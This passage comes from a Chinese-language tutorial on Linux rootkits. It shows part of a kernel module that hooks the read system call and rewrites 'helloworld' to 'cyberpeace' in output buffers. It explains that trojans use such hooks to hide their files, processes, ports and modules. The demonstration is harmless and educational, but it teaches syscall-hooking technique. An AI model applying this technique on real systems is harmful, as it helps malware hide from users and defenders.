 ```c
                    kernel_buf[i+1] == 'e' &&
                    kernel_buf[i+2] == 'l' &&
                    kernel_buf[i+3] == 'l' &&
                    kernel_buf[i+4] == 'o' &&
                    kernel_buf[i+5] == 'w' &&
					kernel_buf[i+6] == 'o' &&
					kernel_buf[i+7] == 'r' &&
					kernel_buf[i+8] == 'l' &&
					kernel_buf[i+9] == 'd')

				{
                    kernel_buf[i] = 'c';
                    kernel_buf[i+1] = 'y';
                    kernel_buf[i+2] = 'b';
                    kernel_buf[i+3] = 'e';
                    kernel_buf[i+4] = 'r';
                    kernel_buf[i+5] = 'p';
					kernel_buf[i+6] = 'e';
					kernel_buf[i+7] = 'a';
					kernel_buf[i+8] = 'c';
					kernel_buf[i+9] = 'e';
                }
            }

            if(copy_to_user(buf, kernel_buf, count))
                //printk("failed to write to read buffer... :(\n");
            kfree(kernel_buf);
        }
    }
    return ret;
}
```
我们在此先调用一下原始的函数，根据返回值和current->comm（current指针指向当前在运行的进程结构体task_struct，comm成员表示进程名）来过滤掉一些其他的无关信息。我们从中查找特定的helloword字符串来替换成cyberpeace。
编译加载之后，我们运行测试一下
![]({{ site.baseurl }}/images/Rootkit/3.png)
看到实际应该打印helloworld的字符串，却被我们替换成cyberpeace了。
这其实就是rootkit的一种简单的效果。
在实际的应用中，rootkit只是作为木马的一个模块，大部分是由木马释放并加载rootkit，来通过修改系统调用或者其他底层接口实现对木马的文件、进程、端口、模块隐藏等功能。
